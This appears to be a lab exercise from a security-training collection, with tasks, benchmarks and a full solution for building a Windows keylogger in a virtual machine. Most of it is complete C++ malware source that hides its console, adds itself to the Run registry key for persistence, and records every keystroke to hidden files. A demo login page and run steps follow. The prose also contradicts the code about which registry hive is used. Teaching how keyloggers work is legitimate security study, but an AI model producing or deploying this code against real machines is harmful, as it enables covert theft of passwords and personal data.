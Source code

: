 # Write A Standalone Keylogger
A keylogger is a type of malware used in cyberattacks to steal sensitive information by recording keystrokes on a victim's computer. Often installed covertly through phishing emails, it captures login credentials and personal data for attackers to misuse


## References
- [Keystroke Logging](https://en.wikipedia.org/wiki/Keystroke_logging) by Wikipedia
- [GetAsyncKeyState](https://docs.microsoft.com/en-us/windows/desktop/api/winuser/nf-winuser-getasynckeystate) by Microsoft
- [Keylogger](https://github.com/shubhangi-singh21/Keylogger) by shubhangi-singh21 on GitHub


## Tasks
- Setup a Windows VM
- Write a custom keylogger program with the following capabilities
  - The program starts executing when the system boots
  - The program runs as a background process without affecting any foreground processes
  - The program logs all user keystrokes in hidden files on the same disk
  - The program must use minimal resources to avoid detection
- Keylogger Creation Guidelines
  - You can use Windows APIs in your program
  - Use a programming language of your choice
  - Compile the program into a binary for deployment
- Deploy the keylogger binary in your VM
- Configure the keylogger to execute when the system starts
- Open a web browser and input a fictional username and password into a login form


## Benchmarks
- Validate that your keylogger starts at system boot time
- Validate that your keylogger records all keystrokes in hidden files
- Validate that your keylogger runs as a background process (you can view the active process listing in 'Task Manager')


## Solutions With Scripts
1. Save the following C++ program and compile it into a binary file called `keylogger.exe` to be used in a Windows 10 VM
   ```
    #include <iostream>
    #include <windows.h>
    #include <ctime>      // For timestamp
    #include <sstream>    // For constructing filename
    #include <fstream>    // For file operations
    #include <string>     // For string manipulation
    
    using namespace std;
    
    void AddToStartup() {
        // Get the current executable path using the wide-character version of GetModuleFileName
        wchar_t filePath[MAX_PATH];
        GetModuleFileNameW(NULL, filePath, MAX_PATH);  // Get the path of the current executable
    
        HKEY hKey;
        // Create or open the registry key for startup (HKEY_CURRENT_USER means it will only affect the current user)
        LONG createStatus = RegCreateKeyW(HKEY_CURRENT_USER, L"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", &hKey);
    
        if (createStatus == ERROR_SUCCESS) {
            // Set the registry value to add the executable to the startup list
            LONG status = RegSetValueExW(hKey, L"MyKeylogger", 0, REG_SZ, (BYTE*)filePath, (wcslen(filePath) + 1) * sizeof(wchar_t));
            
            if (status == ERROR_SUCCESS) {
                cout << "Keylogger successfully added to startup!" << endl;
            } else {
                cerr << "Error setting registry value!" << endl;
            }
    
            // Close the registry key handle
            RegCloseKey(hKey);
        } else {
            cerr << "Error creating/opening registry key!" << endl;
        }
    }
    
    string CreateDynamicLogFile() {
        // Generate a dynamic file name based on timestamp
        time_t now = time(NULL);
        struct tm* localTime = localtime(&now);
    
        stringstream filename;
        filename << "log_"
                 << localTime->tm_year + 1900 << "_"
                 << (localTime->tm_mon + 1) << "_"
                 << localTime->tm_mday << "_"
                 << localTime->tm_hour << "_"
                 << localTime->tm_min << "_"
                 << localTime->tm_sec << ".txt"; // Second
    
        return filename.str();
    }
    
    void HideLogFile(const string& filename) {
        DWORD attributes = GetFileAttributes(filename.c_str());
        if (attributes == INVALID_FILE_ATTRIBUTES) {
            cerr << "Error getting file attributes for " << filename << endl;
            return;
        }
    
        // Set file attributes to hidden
        if (SetFileAttributes(filename.c_str(), attributes | FILE_ATTRIBUTE_HIDDEN)) {
            cout << "Successfully set file to hidden: " << filename << endl;
        } else {
            cerr << "Failed to set file to hidden: " << filename << endl;
        }
    }
    
    int Save(int _key, const char* file) {
        ofstream OUTPUT_FILE(file, ios::app);
        if (!OUTPUT_FILE.is_open()) {
            cerr << "Error opening file!" << endl;
            return -1;
        }
    
        // Save key inputs to file
        switch (_key) {
            case VK_SHIFT: OUTPUT_FILE << "[SHIFT]"; break;
            case VK_BACK: OUTPUT_FILE << "[BACKSPACE]"; break;
            case VK_LBUTTON: OUTPUT_FILE << "[L_CLICK]"; break;
            case VK_RBUTTON: OUTPUT_FILE << "[R_CLICK]"; break;
            case VK_RETURN: OUTPUT_FILE << "[ENTER]"; break;
            case VK_TAB: OUTPUT_FILE << "[TAB]"; break;
            case VK_ESCAPE: OUTPUT_FILE << "[ESCAPE]"; break;
            case VK_CONTROL: OUTPUT_FILE << "[CTRL]"; break;
            case VK_MENU: OUTPUT_FILE << "[ALT]"; break;
            case VK_CAPITAL: OUTPUT_FILE << "[CAPS LOCK]"; break;
            case VK_SPACE: OUTPUT_FILE << "[SPACE]"; break;
            default: OUTPUT_FILE << (char)_key;
        }
    
        OUTPUT_FILE.close();
        HideLogFile(file);
    
        return 0;
    }
    
    int main() {
        // Hide the console window
        FreeConsole();
    
        // Copy the executable to the Startup folder (ensures persistence)
        AddToStartup(); // Using the updated AddToStartup function
    
        // Create and hide the log file
        string logFilename = CreateDynamicLogFile();
        cout << "Log file created: " << logFilename << endl;
    
        ofstream logFile(logFilename.c_str());
        if (logFile.is_open()) {
            logFile.close();
        } else {
            cerr << "Error creating log file!" << endl;
            return -1;
        }
    
        HideLogFile(logFilename);
    
        char i;
        while (true) {
            Sleep(10); // Reduce CPU usage
            for (i = 8; i <= 255; i++) {
                if (GetAsyncKeyState(i) == -32767) {
                    Save(i, logFilename.c_str()); // Save key presses to the log file
                }
            }
        }
    
        return 0;
    }
   ```
2. Save the following HTML file as `login.html` for the purpose of inputting a fictional username and password in the login form
   ```
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Demo Login Page</title>
    </head>
    <body>
        <h1>Login</h1>
        <form>
            <label for="username">Username:</label><br>
            <input type="text" id="username" name="username"><br><br>
            <label for="password">Password:</label><br>
            <input type="password" id="password" name="password"><br><br>
            <button type="submit">Login</button>
        </form>
    </body>
    </html>
   ```
3. Execute `keylogger.exe` with admin privileges. It will now run as a process in the Task Manager
   ![image](https://github.com/user-attachments/assets/831ccbab-c58a-46ba-b90d-09afd2b7fd5f)

5. Reboot the Windows 10 VM. Since the keylogger executable creates an entry in the registry at `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`, it will autorun at startup
   ![image](https://github.com/user-attachments/assets/9dc68225-187c-4afe-a4d8-dc935422cc7a)
   This can also be found in the Startup tab in Task Manager. Note that multiple registry entries in different registry locations will create multiple startup instances <br/>
   ![image](https://github.com/user-attachments/assets/1a3117e6-17b0-4727-bc1c-583ef2b79968)
7. Open `login.html` in a web browser. Show that the keylogger records all keystrokes in hidden files
   
